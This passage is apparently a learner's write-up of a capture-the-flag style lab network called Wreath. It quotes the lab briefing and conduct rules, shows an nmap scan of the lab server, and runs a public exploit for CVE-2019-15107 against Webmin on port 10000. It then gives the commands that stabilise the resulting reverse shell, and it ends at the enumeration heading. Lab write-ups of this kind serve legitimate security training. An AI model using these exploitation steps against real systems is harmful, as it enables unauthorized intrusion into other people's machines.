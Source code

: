 Thomas has sent over the following information about the network:

---

_There are two machines on my home network that host projects and stuff I'm working on in my own time -- one of them has a webserver that's port forwarded, so that's your way in if you can find a vulnerability! It's serving a website that's pushed to my git server from my own PC for version control, then cloned to the public facing server. See if you can get into these! My own PC is also on that network, but I doubt you'll be able to get into that as it has protections turned on, doesn't run anything vulnerable, and can't be accessed by the public-facing section of the network. Well, I say PC -- it's technically a repurposed server because I had a spare license lying around, but same difference.  


---

From this we can take away the following pieces of information:

- There are three machines on the network
- There is at least one public facing webserver
- There is a self-hosted git server somewhere on the network
- The git server is internal, so Thomas may have pushed sensitive information into it  
- There is a PC running on the network that has antivirus installed, meaning we can hazard a guess that this is likely to be Windows
- By the sounds of it this is likely to be the server variant of Windows, which might work in our favour  
- The (assumed) Windows PC cannot be accessed directly from the webserver

---

There are five possible ways to enumerate a network through a compromised host:

1. Using material found on the machine. The hosts file or ARP cache, for example  
2. Using pre-installed tools  
3. Using statically compiled tools
4. Using scripting techniques
5. Using local tools through a proxy

---

_The difference between a "static" binary and a "dynamic" binary is in the compilation. Most programs use a variety of external libraries (_`.so` _files on Linux, or_ `.dll` _files on Windows) -- these are referred to as "dynamic" programs. Static programs are compiled with these libraries built into the finished executable file. When we're trying to use the binary on a target system we will nearly always need a statically compiled copy of the program, as the system may not have the dependencies installed meaning that a dynamic binary would be unable to run._

---

_**Conduct:**_  
As this network is shared amongst a number of people, it goes without saying: please don't mess things up for others in the network. There are no password changes required in any of these tasks, and no files need deleted. At various stages in this network it will be necessary to upload files and tools to the remote box. Please upload these in the format: `toolname-username` (e.g. `socat-MuirlandOracle`, `shell-MuirlandOracle.aspx`, etc) to avoid overwriting work belonging to anyone else. In short, don't be a troll, be respectful, and have fun!

For tunnelling: **Use ports above 15000**

---

# Initial entry

I'm given an exploit `CVE-2019-15107` an instructed to use it against the public facing web-server: https://github.com/MuirlandOracle/CVE-2019-15107

This gives me initial access to the network.

Firstly though i perform an nmap scan:

```php
# Nmap 7.94SVN scan initiated Fri Jul 19 04:18:22 2024 as: nmap -sC -sV -p 22,80,443,9090,10000 -oN nmap/initial-15000-versions.txt 10.200.57.200
Nmap scan report for 10.200.57.200
Host is up (0.019s latency).

PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 9c:1b:d4:b4:05:4d:88:99:ce:09:1f:c1:15:6a:d4:7e (RSA)
|   256 93:55:b4:d9:8b:70:ae:8e:95:0d:c2:b6:d2:03:89:a4 (ECDSA)
|_  256 f0:61:5a:55:34:9b:b7:b8:3a:46:ca:7d:9f:dc:fa:12 (ED25519)
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
|_http-title: Did not follow redirect to https://thomaswreath.thm
443/tcp   open   ssl/http   Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
|_http-title: Thomas Wreath | Developer
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=thomaswreath.thm/organizationName=Thomas Wreath Development/stateOrProvinceName=East Riding Yorkshire/countryName=GB
| Not valid before: 2024-07-19T03:08:29
|_Not valid after:  2025-07-19T03:08:29
| tls-alpn: 
|_  http/1.1
9090/tcp  closed zeus-admin
10000/tcp open   http       MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 19 04:19:06 2024 -- 1 IP address (1 host up) scanned in 43.83 seconds
```

`MiniServ 1.890 (Webmin httpd)` is vulnerable to the exploit provided. This is the service i will attack with exploit `CVE-2019-15107`.

```php
./CVE-2019-15107.py 10.200.57.200 -p 10000
```

This gives me a pseudo shell which the exploit then can leverage into a full reverse shell, or i can use my own reverse shell, as described in the briefing.

![[Pasted image 20240720040437.png]]

![[Pasted image 20240720040511.png]]

1. When i get the upgraded shell i firstly stablize it so it's easier to work with

```php
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

2. **CTL+Z**

3. Tell your machine to push the special characters straight to the target so we can use auto-complete etc.

```php
stty raw -echo && fg
```

4. Finally

```php
export TERM=xterm-256-color
```

Now we have a shell we can work with to explore the rest of the network. 

---
# Enumeration after entry

